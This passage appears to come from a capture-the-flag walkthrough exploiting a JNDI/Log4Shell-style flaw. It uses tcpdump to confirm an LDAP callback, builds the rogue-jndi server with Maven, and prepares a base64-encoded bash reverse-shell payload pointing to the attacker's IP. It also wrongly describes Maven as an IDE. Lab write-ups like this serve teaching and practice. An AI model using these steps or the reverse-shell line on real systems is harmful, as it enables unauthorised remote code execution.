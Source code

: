 The above syntax can be broken down as follows.

After tcpdump has been started, click the Send button.

```
tcpdump is a data-network packet analyzer computer program that runs under a command
line interface. It allows the user to display TCP/IP and other packets being
transmitted or received over a network to which the computer is attached.
```

```
sudo:     Run this via root also known as admin.
tcpdump:  Is the program or software that is Wireshark except, it's a command line
version.
-i:     Selecting interface. (Example eth0, wlan, tun0)
port 389: Selecting the port we are listening on.
```

The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port 389.

We will have to install Open-JDK and Maven on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system.

Open-JDK is the Java Development kit, which is used to build Java applications. Maven on the other hand is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into jar files .

These applications will also help us run the rogue-jndi Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.

Once we have installed Open-JDK, we can proceed to install Maven. But first, let’s switch to root user.

```
sudo apt-get install maven
```

After the installation has completed we can check the version of Maven as follows.

Once we have installed the required packages, we now need to download and build the Rogue-JNDI Java application.

Let's clone the respective repository and build the package using Maven.

```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

This will create a .jar file in rogue-jndi/target/ directory called RogueJndi-1.1.jar . Now we can construct our payload to pass into the RogueJndi-1-1.jar Java application.

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.

```
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' |
base64
```
